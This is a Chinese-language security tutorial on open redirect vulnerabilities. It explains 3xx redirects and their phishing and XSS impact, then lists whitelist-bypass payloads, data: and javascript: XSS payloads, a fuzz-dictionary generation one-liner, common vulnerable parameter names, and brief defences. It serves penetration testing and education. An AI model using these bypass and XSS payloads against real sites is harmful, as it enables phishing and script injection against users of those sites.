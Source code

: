 ### 简介

任意重定向(Open Redirection)

### 漏洞原理

如果重定向到`evil.tld`则存在任意重定向漏洞
```
https://famous-website.tld/signup?redirectUrl=https://evil.tld/account
```

使用HTTP响应状态码`3xx`进行重定向

**HTTP Redirection Status Code - 3xx**
- [300 Multiple Choices](https://httpstatuses.com/300)
- [301 Moved Permanently](https://httpstatuses.com/301)
- [302 Found](https://httpstatuses.com/302)
- [303 See Other](https://httpstatuses.com/303)
- [304 Not Modified](https://httpstatuses.com/304)
- [305 Use Proxy](https://httpstatuses.com/305)
- [307 Temporary Redirect](https://httpstatuses.com/307)
- [308 Permanent Redirect](https://httpstatuses.com/308)


### 漏洞影响

* 任意重定向(Open Redirection)漏洞影响
  * 跳转 - 借用合法网站aaa.com的域名，跳转到"钓鱼"等其他网站
  * XSS

### 测试方法

有一定安全意识的开发人员会对"跳转目的值"使用"关键字白名单"进行校验，我们尝试利用这些"关键字白名单"来绕过不够严谨的校验

尝试找到并利用aaa.com的任意重定向漏洞 跳转到evil.com

* 手工测试 - 任意重定向漏洞导致的跳转 - "跳转目的值"
  * 使用特定子域名绕过不严谨的"关键字白名单"校验   `www.aaa.com.evil.com`
  * 使用`@`绕过白名单机制                        `http://www.aaa.com@evil.com/`
  * 使用参数污染 绕过白名单机制                   `?next=whitelisted.com&next=evil.com`
  * 使用子文件夹名 绕过白名单机制                 `http://www.evil.com/http://www.aaa.com/` `http://www.evil.com/folder/www.aaa.com`
  * 使用CRLF绕过对字符串`javascript`的检测和限制  `java%0d%0ascript%0d%0a:alert(0)`
  * 使用`//`绕过对字符串`http`的检测和限制        `//evil.com`
  * 使用`https:`绕过对字符串`//`的检测和限制      `https:evil.com`
  * 使用`\/\/` 绕过对字符串`//`的检测和限制       `\/\/evil.com/` `/\/evil.com/`
  * 使用`。`即%E3%80%82绕过对`.`的检测和限制      `/?redir=evil。com`  `//evil%E3%80%82com`
  * 使用%00绕过黑名单机制                        `//evil%00.com`
  * ...
* 手工测试 - 任意重定向漏洞导致的XSS
  * XSS from Open URL  `";alert(0);//`
  * XSS from `data://` wrapper   `http://www.aaa.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==`
  * XSS from `javascript://` wrapper  `http://www.aaa.com/redirect.php?url=javascript:prompt(1)`
* 自动化 - 生成"跳转目的值"字典 进行fuzz 测试任意重定向漏洞 (跳转+XSS)
  * 进入文件夹`/PayloadsAllTheThings/Open redirect`
  * 执行命令 生成针对aaa.com的"任意重定向漏洞"fuzz字典 `Open-Redirect-payloads-burp-aaa.com.txt`

```
WHITELISTEDDOMAIN="www.aaa.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```


**常出现跳转漏洞的功能点**
```
1.登录、注销处的URL跳转
```

**常出现跳转漏洞的URL格式**
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

### SDL - 防御与修复方案

* 如果有非法字符return false
* 严格限制参数值内容-"关键字白名单"
* 严格限制参数值长度
* ...

>参考[PayloadsAllTheThings/Open Redirect/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Open%20Redirect/README.md)
